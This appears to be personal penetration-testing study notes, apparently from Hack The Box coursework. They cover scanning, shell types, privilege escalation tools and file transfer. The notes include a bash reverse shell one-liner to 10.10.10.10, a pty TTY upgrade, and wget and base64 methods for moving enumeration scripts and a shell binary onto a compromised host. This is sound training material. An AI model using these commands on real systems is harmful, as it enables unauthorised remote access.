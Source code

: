 - Service Scaning
  collapsed:: true
	- [[nmap]]
- Web Enumeration
  collapsed:: true
	- [[dirbuster]]
	-
- Shells
  collapsed:: true
	- A good website to make reverse shells https://revshells.com
	- | Type of Shell | Method of Communication |
	  | ---- | ---- | ---- |
	  | `Reverse Shell` | Connects back to our system and gives us control through a reverse connection. |
	  | `Bind Shell` | Waits for us to connect to it and gives us control once we do. |
	  | `Web Shell` | Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output. |
	- Example of reverse shell
		- ```
		  bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
		  ```
	- Upgrading TTY
		- Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.
		- There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:
		- Upgrading TTY
		- ```
		  iblis@htb[/htb]**$** python3 -c 'import pty; pty.spawn("/bin/bash")'
		  ```
		- iblis@htb[/htb]**$** python3 -c 'import pty; pty.spawn("/bin/bash")'
	-
- Privilege Escalation
	- Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets online that have a collection of checks we can run and the commands to run these checks. One excellent resource is [HackTricks](https://book.hacktricks.xyz/), which has an excellent checklist for both [Linux](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) and [Windows](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) local privilege escalation. Another excellent repository is [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), which also has checklists for both [Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and [Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md). We must start experimenting with various commands and techniques and get familiar with them to understand multiple weaknesses that can lead to escalating our privileges.
	- ## Enumeration Scripts
		- Many of the above commands may be automatically run with a script to go through the report and look for any weaknesses. We can run many scripts to automatically enumerate the server by running common commands that return any interesting findings. Some of the common Linux enumeration scripts include [LinEnum](https://github.com/rebootuser/LinEnum.git) and [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker), and for Windows include [Seatbelt](https://github.com/GhostPack/Seatbelt) and [JAWS](https://github.com/411Hall/JAWS).
		- Another useful tool we may use for server enumeration is the [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), as it is well maintained to remain up to date and includes scripts for enumerating both Linux and Windows.
		- Note: These scripts will run many commands known for identifying vulnerabilities and create a lot of "noise" that may trigger anti-virus software or security monitoring software that looks for these types of events. This may prevent the scripts from running or even trigger an alarm that the system has been compromised. In some instances, we may want to do a manual enumeration instead of running scripts.
	- [Privilege escalation lab](../assets/2023-08-09_14-12-46_1691612623478_0.mkv)
- Transfering Files
	- using Wget
		- To set up an HTTP server using the command `python3 -m http.server 8000`, follow these steps:
		- 1. Open a terminal or command prompt on your machine.
		  2. Navigate to the directory where you want to serve files from using the `cd` command. For example:
		  ```
		  cd /path/to/directory
		  ```
		  3. Once you are in the desired directory, run the following command to start the HTTP server:
		  ```
		  python3 -m http.server 8000
		  ```
		   This command will start the server and listen on port 8000.
		   
		  4. You should see an output similar to the following:
		  ```
		  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
		  ```
		   This means that the server is running and ready to serve files from the current directory.
		   
		  5. You can now access the files in the directory by opening a web browser and navigating to `http://localhost:8000/`. The files will be listed, and you can click on them to download or view them in the browser.
		- Note: If you want to use a different port instead of 8000, you can change the number in the command accordingly. Also, ensure that you have Python 3 installed on your machine for this command to work.
		- ```
		  user@remotehost**$** wget http://10.10.14.1:8000/linenum.sh
		  - ...SNIP...
		  Saving to: 'linenum.sh'
		  - linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s
		  2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
		  ```
	- using SCP
		- ```
		  iblis@htb[/htb]**$** scp linenum.sh user@remotehost:/tmp/linenum.sh
		  - user@remotehost's password: *********
		  linenum.sh
		  ```
	- using base64
		- In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it. For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:
		-
		- ```
		  iblis@htb[/htb]**$** base64 shell -w 0
		  - f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
		  ```
		- Now, we can copy this `base64` string, go to the remote host, and use `base64 -d` to decode it, and pipe the output into a file:
		-
		- ```
		  user@remotehost**$** echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
		  ```
	- Validating file transfers
		-